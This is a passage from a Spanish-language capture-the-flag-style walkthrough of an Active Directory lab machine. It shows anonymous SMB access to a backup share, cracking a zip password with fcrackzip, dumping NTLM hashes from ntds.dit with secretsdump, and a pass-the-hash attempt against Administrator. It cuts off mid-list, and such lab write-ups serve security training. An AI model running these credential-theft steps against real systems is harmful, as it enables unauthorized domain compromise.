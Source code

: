 ```bash
smbclient //dead:beef::b885:d62a:d679:573f/backup -N
dir
get backup.zip
```

Aqui hay un backup.zip y lo descargamos a nuestro equipo de atacante. Si intentamos unzipear el archivo vemos que esta protegido por contraseña.

### Crackeando la contraseña con fcrackzip {-}

```bash
fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt backup.zip
```

Aqui podemos ver la contraseña.

```bash
unzip backup.zip
```

Aqui podemos ver que tenemos un **ntds.dit** y un **SYSTEM**. Esto quiere decir que podemos jugar con **SecretsDump**

### SecretsDump {-}

Teniendo un ntds.dit y un SYSTEM, podemos pillar los hashes NTLMv2 de los usuarios del Directorio Activo. Como lo hacemos desde nuestra
maquina local, tenemos que ponerle un **LOCAL** al final.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
```

Aqui recuperamos un monton de informacion. Vamos a tratar de recojer unicamente la informacion que nos interesa. Vemos que todo los usuarios tienen un 
hash **aad3b435b51404eeaad3b435b51404ee**.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL | grep "aad3b435b51404eeaad3b435b51404ee" > data
```

Intentamos un pass the hash con el usuario Administrator

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'Administrator' -H '2b576acbe6bcfda7294d6bd18041b8fe'
```

Vemos que no podemos hacer pass the hash a todos los usuarios, Tenemos que recuperar un listado de usuarios validos.

1. Creamos un fichero de usuarios

    ```bash
    cat data | awk '{print $1}' FS=":" | wc -l
    cat data | awk '{print $1}' FS=":" | sort -u | wc -l
    cat data | awk '{print $1}' FS=":" > users
    ```

